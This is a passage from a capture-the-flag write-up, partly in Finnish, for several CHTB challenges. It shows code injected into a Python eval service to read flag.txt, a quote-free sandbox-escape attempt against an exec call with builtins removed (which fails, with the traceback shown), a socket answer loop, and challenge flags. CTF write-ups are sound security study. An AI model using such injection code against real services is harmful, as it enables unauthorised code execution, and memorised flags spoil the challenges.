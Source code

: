 ```CHTB{nu11_732m1n47025_c4n_8234k_4_532141_5y573m!@52)#@%}```
    get_vals()

    s.sendall(b'2\n')

    while True:
        question, response = parse(question)
        s.sendall(response)

```

#### Flag
```CHTB{3v3n_4l13n5_u53_3m0j15_t0_c0mmun1c4t3}```

### ~~Input As A Service~~

Avaa selaimes, tulee GET is not defined.
Ottaa siis vastaan tcp yhteyden ja evalaa sen.
Netcatil voi yhistää ja sitten suorittaa pythonia.
Jotain filteröintiä on

```python
print(open("flag.txt", "r").read())
```

CHTB{4li3n5_us3_pyth0n2.X?!}

### ~~Build yourself in~~
*Pingnu, Antti*

Filtered python console.
User input is ran with
```python
exec(text, {'__builtins__': None, 'print':print}
```
where ```text``` is the input
**No quotes allowed.**

Code to print contents of ```flag.txt``` without using quotes (python 2 and 3 both work):
```python
foo = str(0)
bar = foo[1:]
filename = bar.join([chr(c) for c in [102, 108, 97, 103, 46, 116, 120, 116]])
print(open(filename).read())
```
Works on my machine™. The server however does not run the code. Line 1 returns this:
```
>>> print(foo)
Traceback (most recent call last):
  File "/app/build_yourself_in.py", line 16, in <module>
    main()
  File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```
